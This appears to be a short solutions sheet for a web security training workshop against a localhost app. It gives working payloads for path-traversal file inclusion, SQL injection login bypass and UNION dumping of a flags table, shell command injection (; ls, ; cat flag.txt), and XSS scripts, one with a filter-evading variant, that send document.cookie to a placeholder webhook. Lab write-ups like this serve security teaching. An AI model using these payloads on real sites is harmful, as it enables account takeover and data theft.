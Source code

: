 # Web Security Workshop solutions

## LFI: exporting data on inspector gadget

Visit http://localhost:3001/?loc=..%2f..%2fdocument%2finsp3ct0r_g4dg3t_456afbc.ht.htmlml

## SQLi: basic

Username: admin'; --
Password: anything

## SQLI: Worker's Union

Query: `' UNION SELECT flag, null FROM flags;--`

## XSS: Reflection

```html
<script>
  document.location.href = "<Your webhook site>?c=" + document.cookie;
</script>
```

# OS Command injection: basic

To list the folder
`; ls #!`

To read the flag file
`; cat flag.txt #!`

## XSS: Getting the staff cookies

```html
<script>
  document.location.href = "<Your webhook site>?c=" + document.cookie;
</script>
```

## XSS: Getting the admin

```html
<scr<script>ipt>
document.location.href= "<Your webhook site>?c=" + document.cookie;
</scr</script>ipt>
```
